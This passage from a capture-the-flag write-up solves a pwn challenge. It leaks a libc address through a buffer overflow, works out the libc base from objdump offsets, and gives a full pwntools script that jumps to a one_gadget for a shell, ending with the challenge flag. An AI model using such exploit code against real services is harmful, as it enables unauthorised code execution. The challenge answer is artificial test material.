And we will need all libc function which end with `620`. Why just `620` but not `1620` as above leaked libc address? As I said that just 3 least `620` is remain, the `1` in `1620` will change after each run so we just find from provided libc which function ends with `620`:

```
$ objdump -T libc-2.23.so | grep "620 "
0000000000129620 g    DF .text    0000000000000115  GLIBC_2.2.5 __nss_configure_lookup
00000000003c5620 g    DO .data    00000000000000e0  GLIBC_2.2.5 _IO_2_1_stdout_
000000000008b620 g    DF .text    000000000000017f  GLIBC_2.2.5 __strerror_r
000000000008b620  w   DF .text    000000000000017f  GLIBC_2.2.5 strerror_r
0000000000071620 g    DF .text    00000000000000a3  GLIBC_2.2.5 wscanf
```

Now we just use the leaked libc address subtract with these offset to get libc base, then calculate one gadget and put it to the rip and we get the shell. Script will be as follows:

<details>
<summary>Sub Script</summary>
<p>

```
from pwn import *

context.log_level = 'debug'

libc = ELF('./libc-2.23.so', checksec=False)
libc.sym['one_gadget'] = 0x45226
libc.sym['xor_rax_rax_ret'] = 0x8b945

buff_size = 88
stop_gadget = 0x400705
main = 0x4005c0
useful_gadget = 0x4007ba
puts_plt = 0x400560

offset_list = [0x129620, 0x3c5620, 0x08b620, 0x071620]

for offset in offset_list: 
    p = connect('34.159.129.6', 30550)
    payload1 = b'A'*88 + p64(puts_plt) + p64(main)
    p.recvline()
    # Don't sendline here or payload won't work
    p.send(payload1)

    data = p.recv()
    leak_addr = u64(data[24:24+8])
    libc.address = leak_addr - offset

    payload2 = b'A'*88
    payload2 += p64(libc.sym['xor_rax_rax_ret'])
    payload2 += p64(libc.sym['one_gadget'])

    p.send(payload2)
    p.interactive()
    p.close()
```

</p>
</details>

# 4. Get Flag


Flag is `CTF{313f12378d33889716128e329457030182023d103ab648b072fa1e839713dab5}`